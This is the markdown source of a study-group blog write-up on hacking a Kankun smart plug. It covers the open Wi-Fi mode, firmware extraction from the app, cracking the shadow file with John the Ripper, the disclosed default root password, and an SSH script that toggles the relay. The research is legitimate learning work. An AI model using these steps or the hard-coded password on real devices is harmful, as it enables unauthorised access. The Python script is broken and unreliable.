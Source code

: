 ```yaml
---
path: "/samrtplug-hack"
cover: "../2019-02-08/main.jpg"
slug: "samrtplug-hack"
date: "2019-02-07"
title: "Kankun Smartplug hack"
tags: ['smartplug', 'kankun', 'iot', 'security']
published: true

---
```


![](../2019-02-08/main.jpg ){:height="700px" width="400px"}



# TL;DR

Hacking into old kankun smartplug. Then controlling it with python through terminal 

# Introduction

It has now been almost one year when we started to study upon Internet of Things under IoT
study group , an initiative by Null Bhopal chapter. Internet of Things have indeed made a
revolutionary change in the way we live, making it more comfortable. In this process of learning, one
of our mentor, [Mr. Anant Shrivastava](https://twitter.com/anantshri), sponsored us a smart plug. And there it all started.

# head

The kankun smart plug is controlled by app. The Instruction manual that comes along with the plug gives information of where to download the app from. The next step is to setup it up and connect the smart phone and smart plug to the same wifi network. When successfully configured, the smart plug is added in the device list. Now the smart plug can be controlled remotely via mobile app. There is another feature  **Direct Mode** , where the smart plug acts as a station having SSID : OK_SP3 , and by default there is no password for the network.

![#](../2019-02-08/images/asdf.png)

After connecting you can control simply control the smart plug with the app.

I also connected my laptop on the same network.  Found the IP address of smart plug with

```
arp -a
```

Then did a `nmap` scan on the smartplug. It suggested that port 22 is open so ssh related attacks are possible.

![](../2019-02-08/images/10.png)



# Lets get started

First I downloaded the `smartwifi.apk` on my laptop running android tamer.

The very first thing to look for was the firmware.

The reason being it gives the overview of the device’s software. Information such as the filesystem present, bootloader, the different binaries present can be of great use from a pentester’s point of view. Although the firmwares are available on the internet, but in case you are unable to find, the other approach can be to reverse engineer the app. There is a tool named `jadx` that can be used to extract the source code.

​​![](../2019-02-08/images/1.png)



Extracting the app shows all the usual folders. We would first time to look for any hard-coded URLs. One can go from all the files one by one but the process is time-consuming. Therefore intelligent use of `grep` can save us a lot of time.

So we are using 

```bash
grep -winr http:
```

This would give us all the url starting with http plus the filename and line number.

![](../2019-02-08/images/3.png)

The highlighted text in the above screenshot shows the hardcoded url in the file`PreferencesUtil.java`. Since the url ends with `.bin` it might be the firmware file

Then simply use `wget` to download the .bin firmware file.

```bash
wget http://app.jkonke.com/kkeps.bin
```



The app also downloads this firmware and flash it to the device. After downloading the
firmware, run `binwalk` on kkeps.bin binary file. And it provides you with loads of useful information such as : LZMA compressed data, squashfs filesystem, so on and so forth. 

One can download binwalk with

```
apt install -y binwalk
```

`-e` option can be used for extracting the filesystem.

```
binwalk –e kkeps.bin
```

![](../2019-02-08/images/6.png)

![](../2019-02-08/images/7.png)

So here is the entire linux file system. So the next step would be to get the root password. Which is
not very difficult if you have the entire file system.

```bash
unshadow /etc/password /etc/shadow > passwd.txt
```

Then one can crack the file using John the Ripper. Password is `p9z34c` Now that we have the root password we can now ssh into the smart plug. To control it with our terminal without the app.

Turning ON and OFF the smart plug can easily done with the help of terminal.

### Turning the smart plug off

```bash
echo 0 > /sys/class/leds/tp-link:blue:relay/brightness
```

### Turning the smart plug on

```bash
echo 1 > /sys/class/leds/tp-link:blue:relay/brightness
```

# Automating

This entire process can be done with the help of this python script that I wrote. This script requires
paramiko library. So you will be required do an

```bash
apt install python-paramiko

```

```python
import paramiko,sys

GREEN=’\033[92m’
BLUE=’\033[94m’
RED=’\033[91m’
RESET=’\x1b[0m’
if len(sys.argv) < 3:
	print “args missing”
sys.exit(1)
host = sys.argv[1]
action = sys.argv[2]
ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
print BLUE +”[*]   connecting to device”+ RESET
ssh.connect(host, username=’root’, password=’p9z34c’)
path=’/sys/class/leds/tp-link:blue:relay/brightness’
if sys.argv[2] == ‘on’:
	ssh.exec_command(‘echo 1 >’ + path)
print GREEN +”[*]   turning it ” + action +””+RESET
	elif sys.argv[2] == ‘off’:
ssh.exec_command(‘echo 0 >’ + path)
print RED +”[*]   turning it ” + action +””+RESET
ssh.close()
```

That Is how we controlled the smart plug remotely without the smartplug app.
This report is drafted under the IoT study group, an initiative by Null Bhopal chapter.

# Credits

- Deepanshu Gajbhiye ([deep0x00](https://twitter.com/deep0x00))
- Shreya Pohekar ([shreyapohekar](https://twitter.com/shreyapohekar))